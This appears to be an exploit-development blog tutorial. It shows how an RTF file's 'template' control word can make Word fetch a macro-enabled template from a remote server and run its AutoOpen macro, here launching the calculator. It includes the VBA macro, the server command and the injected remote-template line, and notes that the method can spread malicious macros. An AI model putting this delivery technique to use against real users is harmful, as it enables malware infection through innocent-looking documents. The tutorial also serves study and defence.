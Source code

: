 ```yaml
---
title: "RTF Template Injection"
date: "2022-02-09"
description: "In this example, we will demonstrate how to use the “template” control word to cause an RTF file to pop up the calculator app when opened.  “Hold on... I can use the Start menu to do that. Why should I care?”, you may wonder. The simple answer is that this technique can be easily modified to spread malicious macros using otherwise benign looking RTF files."
coverimage: RTF_Template_Injection.jpg
tags: exploit-development, rtf
published: true
posttype: article
---
```


In this example, we will demonstrate how to use the “template” control word to cause an RTF file to pop up the calculator app when opened.  “Hold on... I can use the Start menu to do that. Why should I care?”, you may wonder. The simple answer is that this technique can be easily modified to spread malicious macros using otherwise benign looking RTF files.

## What is an RTF file?

Tapping away in front of your Macintosh or the early versions of Windows, did you ever wonder what those .rtf files (Rich Text Format) were that you ever so occasionally encountered? The ones that were opened up with text editors (featuring a horizontal ruler) other than your trusted notepad?

RTF traces back to the late 1980s when it was developed and released. Rich text format files, as opposed to plain text files, can contain images, different font styles, formatting, and more. They are interoperable, which means they can be processed by a wide range of technologies, making them a portable file type. 

## Why should I care?

"Why should I care?" you might wonder. The short answer is that with little modification, this technique can be leveraged to spread malicious macros in otherwise benign RTF files - as actively being done by threat actor groups online. Within RTF files, specific control words (see http://latex2rtf.sourceforge.net/rtfspec_62.html for more) are used. These control words are specially formatted commands that instruct applications how to handle the file. Let us get started!  

# Instructions - RTF template injection with a calculator pop-up

In this example, we will demonstrate how to use the "template" control word to cause an RTF file to fetch another file from a web server controlled by us.  This example makes use of the template editing capabilities of RTF files, as well as the ability to fetch resources from a specified URL. The code we will use opens up a calculator on a Windows-based operating system when the RTF file is run. Note that macros will require enabling on your system.

<h5 class="step">Step 1 - Create a macro-enabled Word template file</h5>

This file will contain our macro that executes the calculator app when the RTF file is opened. 

Open Word and add the following Visual Basic code (macro) to it. Save the file as `calc.dotm`. 

```
Sub AutoOpen()
Dim Program As String
Dim TaskID As Double
Program = "calc.exe"
TaskID = Shell(Program, 1)
End Sub
```

*If you are unfamiliar with creating Word template files, we recommend checking out Microsoft's documentation on them: https://support.microsoft.com/en-us/office/save-a-word-document-as-a-template-cb17846d-ecec-49d4-82ea-a6f5e3e8b9ae.*

<h5 class="step">Step 2 - Start a web server</h5>

Launch an HTTP server in the folder containing the 'calc.dotm' file using your preferred method. If you are using Python 3, you can use the following command with the port number of your choice. 

```
python3 -m http.server <port number>
```

<h5 class="step">Step 3 - Create a benign RTF file</h5>

Get or make a simple RTF file. We will modify this in the next step to fetch our macro-enabled template file from the web server launched.

![](5e05c49b-2704-464a-9eb8-6afe16b298ec.png)

*There are sample RTF files you can use available online. Please always have your anti-virus solution enabled when downloading files from the Internet.*

<h5 class="step">Step 4 - Add remote template fetching capabilities to the RTF file</h5>

Use a HEX editor to open the RTF file created in the previous step. I used Hex Editor Neo. 

Look for a pre-existing enclosing group for a font family control word (for example, Times New Roman if your file uses it). Insert the following text after the font's ending tag with your listening IP and port + payload/file to fetch. 

```
{\*\template http://<your-IP>:<port number>/calc.dotm}
```

![](514cab5a-57fa-4783-9db1-35ca3867a8ef.png)

<h5 class="step">Step 5 - Show time</h5>

Save the changes and open the RTF file in its default application. If you are a Windows user, this will likely be Word. The remote file will be loaded from your web server and used to launch the calculator program when the RTF file is opened.

The below screen capture displays the macro-enabled template file being fetched.

![](20e0eb7d-9a66-4ff2-991c-366e9a7a3d84.png)

The below screen capture displays the RTF file opened and the calculator app launched.

![](c6ec75ba-dad0-4755-903a-7de8f5065320.png)

### Well that was easy... Where to from here?

I hope this article has served as a foundation for your further explorations. Why not look into creating your custom macro-enabled template files next?